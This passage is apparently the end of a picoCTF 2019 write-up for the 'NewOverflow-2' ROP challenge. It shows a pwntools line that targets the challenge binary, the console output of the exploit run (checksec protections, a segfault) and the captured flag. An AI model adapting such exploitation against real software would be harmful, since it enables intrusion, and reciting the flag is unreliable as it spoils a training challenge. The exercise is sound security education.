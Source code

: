 It works, let's modify the program to run against the challenge directory.
`p = process('./vuln', cwd='/problems/newoverflow-2_6')`

```bash
samson@pico-2019-shell1:~$ python exploit.py 
[+] Starting local process './vuln': pid 2362033
[*] '/home/samson/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
Welcome to 64-bit. Can you match these numbers?
[+] Receiving all data: Done (39B)
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 2362033)

picoCTF{r0p_1t_d0nT_st0p_1t_535c741c}
```

## Flag

`picoCTF{r0p_1t_d0nT_st0p_1t_535c741c}`